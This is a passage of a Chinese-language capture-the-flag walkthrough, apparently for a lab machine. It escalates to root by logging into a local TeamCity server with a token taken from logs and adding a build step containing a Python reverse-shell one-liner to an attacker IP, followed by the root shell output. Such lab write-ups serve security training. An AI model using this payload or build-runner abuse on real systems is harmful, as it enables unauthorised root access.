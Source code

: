 ```
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 11 10:52:22 2023 from 10.18.72.222
```

访问http://127.0.0.1:8111/login.html：

看到Log in to TeamCity页面，有一条警告信息：No System Administrator found. Log in as a Super user to create an administrator account. 

使用空Username和从/TeamCity/logs/catalina.out中找到的token: 8364347591928153180 作为密码，来访问服务器。

登录成功，在http://127.0.0.1:8111/，点击 Create project，然后选择 Manually -> Name: Shell。

在http://127.0.0.1:8111/admin/editProject.html?projectId=Shell，

Build Configurations (100 left)

Build configurations define how to retrieve and build sources of a project. 

点击Create buil configuration。

在Create Build Configuration页面中，在Name字段下输入shell。

http://127.0.0.1:8111/admin/editBuild.html?id=buildType:Shell_Shell

在左边栏点击Build Steps：

Build Steps

In this section you can configure the sequence of build steps to be executed. Each build step is represented by a build runner and provides integration with a specific build or test tool. 

点击Add build step

Runner type: Python

Step name: sheller

Command: Custom script

Script: * Custom Python script: 

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.72.222",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

保存。

http://127.0.0.1:8111/admin/editBuildRunners.html?id=buildType:Shell_Shell

页面右上角有个提示：You can now run the first build in this build configuration!

点击Run。获取到目标上root权限的reverse shell。

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234                                                                
listening on [any] 1234 ...
connect to [10.18.72.222] from (UNKNOWN) [10.10.181.118] 50148
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# whoami
whoami
root
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# id
id
uid=0(root) gid=0(root) groups=0(root)
root@vulnnet-internal:/TeamCity/buildAgent/work/2b35ac7e0452d98f# cd /root
cd /root
root@vulnnet-internal:~# ls -al
ls -al
total 44
drwx------  8 root root 4096 Feb  6  2021 .
```